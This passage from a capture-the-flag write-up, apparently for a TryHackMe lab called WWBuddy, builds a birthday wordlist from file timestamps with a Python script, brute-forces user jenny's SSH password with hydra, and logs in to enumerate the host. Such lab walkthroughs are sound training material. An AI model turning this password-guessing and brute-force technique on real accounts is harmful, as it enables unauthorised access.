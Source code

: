 ```
$ ls -lah /home/roberto/importante.txt
-rw-rw-r-- 1 roberto roberto 246 Jul 27  2020 /home/roberto/importante.txt
```

As you can see, both of them are created at `07/27/2020`. So `jenny` birthday is at around `08/xx/1994`.

**Let's write a python script to create a wordlist:**
```py
#!/usr/bin/env python3

def main():
    for day in range(1, 32):
        for month in range(7, 9):
            brithday = f'{month:02d}/{day:02d}/1994'

            with open('wordlist_brithday.txt', 'a') as fd:
                fd.write(f'{brithday}\n')



if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# python3 create_wordlist.py

┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# head -n 5 wordlist_brithday.txt 
07/01/1994
08/01/1994
07/02/1994
08/02/1994
07/03/1994
```

**Then use `hydra` to brute force user `jenny` SSH password:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# hydra -l 'jenny' -P wordlist_brithday.txt ssh://$RHOSTS
[...]
[22][ssh] host: 10.10.114.1   login: jenny   password: {Redacted}
```

Found it!

**Let's SSH into user `jenny`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# ssh jenny@$RHOSTS      
jenny@10.10.114.1's password: 
[...]
$ whoami;hostname;id;ip a
jenny
wwbuddy
uid=1002(jenny) gid=1002(jenny) groups=1002(jenny)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:be:79:84:16:8b brd ff:ff:ff:ff:ff:ff
    inet 10.10.114.1/16 brd 10.10.255.255 scope global dynamic eth0
```